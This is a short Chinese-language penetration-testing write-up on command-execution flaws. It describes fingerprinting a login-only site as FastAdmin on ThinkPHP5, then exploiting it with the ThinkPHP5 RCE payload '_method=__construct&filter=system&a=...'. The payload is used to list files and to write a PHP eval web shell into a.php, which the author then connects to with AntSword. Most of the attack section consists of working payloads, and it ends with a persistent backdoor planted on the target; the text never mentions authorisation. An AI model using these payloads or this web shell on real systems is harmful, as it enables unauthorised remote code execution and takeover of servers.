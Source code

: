 # 未知攻焉知防-命令执行
命令执行漏洞概念：当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。如PHP中的system，exec，shell_exec等，当用户可以控制命令执行函数中的参数时，将可注入恶意系统命令到正常命令中，造成命令执行攻击。</br>
## 目标站只有一个登陆窗口
F12查看下源代码寻找一下蛛丝马迹</br>

发现了一个url 为 fastadmin官网</br>
![1.jpg](https://i.loli.net/2019/06/10/5cfe09cd4290340159.jpg)</br>
里面介绍到 fastadmin 基于ThinkPHP5和Bootstrap的极速后台开发框架</br>
![2.jpg](https://i.loli.net/2019/06/10/5cfe09cd6edd964825.jpg)</br>
由此可试试使用最新的ThinkPHP5 命令执行漏洞进行渗透测试</br>
基本payload</br>
```
_method=__construct&filter=system&a={command}
```
测试发下代码执行成功</br>
![3.jpg](https://i.loli.net/2019/06/10/5cfe0a6b5240c79310.jpg)</br>
### 接下来是写马过程.</br>
首先查看下当前目录（windows系统）</br>
```
_method=__construct&filter=system&a=dir
```
![5cfe0abe14ec314843.jpg.jpg](https://i.loli.net/2019/06/10/5cfe0abe14ec314843.jpg)</br>
这里有两种方法写入木马 一种是偷偷写入到已经存在的文件下面，另一种就是新建一个文件</br>
这里选择新建一个(ehco xxx > a.php)  追加写法的话:(echo xxx >> a.php)</br>
```
_method=__construct&filter=system&a=echo "Ra<?php @eval($_POST['A']);?>" >a.php
```
![4.jpg](https://i.loli.net/2019/06/10/5cfe09cd4ec5d69059.jpg)</br>
访问a.php 200 回显Ra成功</br>
![5.jpg](https://i.loli.net/2019/06/10/5cfe09f7e990d81101.jpg)</br>
蚁剑连接</br>
![6.jpg](https://i.loli.net/2019/06/10/5cfe09cd65c5598288.jpg)</br>
